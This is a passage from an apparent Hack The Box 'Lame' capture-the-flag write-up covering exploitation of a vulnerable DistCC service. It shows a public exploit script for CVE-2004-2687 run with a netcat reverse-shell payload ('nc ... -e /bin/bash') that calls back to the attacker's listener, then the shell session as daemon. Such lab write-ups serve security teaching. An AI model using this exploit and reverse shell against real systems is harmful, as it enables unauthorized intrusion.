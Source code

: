 Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds

Now that I knew I had a couple possible paths in, I decided to move over to the exploitation phase.

## Exploitation

### DistCC RCE - Python Script

The DistCC service was the service I decided to try first as I had already used the nmap script to confirm it was vulnerable. The python exploit script I found was here: [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) and it was very simple to use. Just run the script and pass in the parameters of the correct host and the command you want to run:

~/Documents/htb/lame » python distccd\_rce\_CVE-2004-2687.py -t 10.10.10.3 -c "nc 10.10.14.21 4444 -e /bin/bash"
\[OK\] Connected to remote service
\[KO\] Socket Timeout

That timeout error did not affect anything for me. The command I chose was to connect back to a listener I had set up (shown below but done before this command was ran) and pass it to /bin/bash. This would give me a shell on the server as daemon, and let me grab the first flag:

~/Documents/htb/lame » nc -nlvp 4444                                                                               1 ↵
listening on \[any\] 4444 ...
connect to \[10.10.14.21\] from (UNKNOWN) \[10.10.10.3\] 33071
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
pwd
/tmp
ls
5564.jsvc\_up
distcc\_dc0c1671.stdout
distcc\_dc231671.stderr
distcc\_f67e1788.stdout
distcc\_f7bc1788.stderr
distccd\_dc451671.o
distccd\_dc501671.i
distccd\_f6241788.i
distccd\_f63f1788.o
vgauthsvclog.txt.0
vmware-root
cd
pwd
/tmp
cd /home
ls \*
ftp:

makis:
user.txt
